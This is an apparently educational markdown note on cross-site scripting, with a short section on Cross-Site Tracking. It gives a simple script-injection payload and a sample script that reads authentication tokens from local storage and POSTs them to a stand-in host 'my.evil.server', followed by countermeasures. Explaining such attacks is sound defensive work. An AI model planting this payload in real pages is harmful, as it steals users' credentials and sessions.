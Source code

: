 # XSS

**Cross site scripting** (**XSS**) is an attack where one runs a script
(typically JavaScript) in another user's browser. This can happen if user inputs
are not correctly sanitized and then displayed back to users. It can be used for

- stealing stored data in browser local storage
- steal cookies (unless they are server-side read-only)
- modify DOM and trigger DOM events
- send requests (especially dangerous if cookie-based authentication is used)
- keylogger

## Example

Assume we have a social media site where users can post comments. The comments
are rendered server side using a template language (although it is as much of a
vulnerability for client-side rendering)

```html
<div>
  <p>{comment}</p>
</div>
```

A malicious user posts a comment containing `<script>alert("XSS!")</script>`.
When any user attempt to see this comment, the HTML renders as below which
executes the malicious script.

```html
<div>
  <p>
    <script>
      alert("XSS");
    </script>
  </p>
</div>
```

### Accessing local storage

Assume an attacker knows an application is vulnerable to XSS. On further
investigation, one can also see that it stores authentication tokens in the
browser local storage as [JSON](../../programming/data_formats/json.md) under
the key `persist:root`. Then an attack to send user tokens to a malicious server
would be:

```html
<script>
  {
    const root = window.localStorage["persist:root"];
    const auth = JSON.parse(root).auth;

    const url = "my.evil.server:5001";
    window.fetch(url, { method: "POST", body: auth });
  }
</script>
```

## Countermeasures

The best protection against XSS is to make sure all user input is sanitized and
that no vulnerable data is stored in local storage or browser readable cookies.

Avoid rendering custom HTML content.

## XST

**Cross-Site Tracking** (**XST**) is where one uses the HTTP Track method to
bypass the `httpOnly` attribute in a cookie. To protect against XST, make sure
Track requests are disabled (especially from JavaScript).
